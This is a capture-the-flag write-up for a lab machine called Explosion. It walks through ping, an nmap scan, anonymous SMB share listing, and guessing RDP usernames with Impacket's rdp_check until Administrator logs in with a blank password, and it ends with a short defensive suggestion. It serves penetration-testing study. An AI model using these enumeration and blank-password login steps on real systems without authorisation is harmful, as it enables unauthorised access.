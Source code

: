 # Explosion

---

## Setup

Connected to the VPN, spawned in the target machine, as a first step to make sure the target machine is alive I use a quit `ping` command in the terminal to make sure all is set and store the IP in an environment variable:

```shell
└─$ export IP=10.129.1.13
└─$ echo $IP
10.129.1.13

└─$ ping $IP
PING 10.129.1.13 (10.129.1.13) 56(84) bytes of data.
64 bytes from 10.129.1.13: icmp_seq=1 ttl=127 time=68.4 ms
64 bytes from 10.129.1.13: icmp_seq=2 ttl=127 time=68.6 ms
64 bytes from 10.129.1.13: icmp_seq=3 ttl=127 time=68.8 ms
64 bytes from 10.129.1.13: icmp_seq=4 ttl=127 time=68.6 ms
````

All is set!

---

## Enumeration

First, I run a scan on the target machine to identify open ports and running services that might be vulnerable using [nmap](https://nmap.org) with the following flags:
`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```shell
└─$ nmap -sV -sC -v -oN scan.nmap $IP

...

Nmap scan report for 10.129.1.13
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Here we see the target machine is running a Microsoft Windows OS with RDP server on prt 3389, also later in the scan it shows the computer name is :`Explosion` and the DNS domain name is also `Explosion`, so I edited my `/etc/hosts` file and added this entry `10.129.1.13	explosion.htb`.

The target machine also seemingly runs Samba services which might be worth looking at early on for simple intel that could lead me somewhere

---

## Samba

I started with enumerating Samba shares anonymously with a blank password, see if anything interesting there but all I found was some default shares that are secured with administrator access, so I moved on to explore the RDP server.

```shell
└─$ smbclient -L $IP     
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

---

## RDP

I started by trying to connect to the RDP server with the username I already know previously from the nmap scan `Explosion`, but a password was necessary so I couldn't get connection.

```shell
└─$ xfreerdp /v:$IP /u:Explosion    
[22:27:40:190] [20135:20136] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[22:27:40:190] [20135:20136] [WARN][com.freerdp.crypto] - CN = Explosion
Password: 
[22:27:42:866] [20135:20136] [ERROR][com.freerdp.core] - transport_ssl_cb:freerdp_set_last_error_ex ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED [0x0002000F]
[22:27:42:866] [20135:20136] [ERROR][com.freerdp.core.transport] - BIO_read returned an error: error:14094438:SSL routines:ssl3_read_bytes:tlsv1 alert internal error
```

I then started manually brute forcing common usernames to see if any of them is misconfigured and maybe I can login with a blank password, I used `Impacket: rdp_check.py` script and started testing usernames: `root`, `admin`, `Explosion`, `Administrator` and at last, the username `Administrator` with a blank password clicked!

```shell
└─$ python /opt/impacket/build/scripts-3.10/rdp_check.py Explosion/Administrator:@$IP
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Password:
[*] Access Granted
```

To connect to the RDP server I used `xfreerdp`:

```shell
└─$ xfreerdp /v:$IP /u:Administrator
````

and I'm in! I got an instance of the target machine running in a GUI window with `flag.txt` file on the Desktop:

---

## Blue Team Suggestions

- Administrator accounts must have a secure password! at least a password.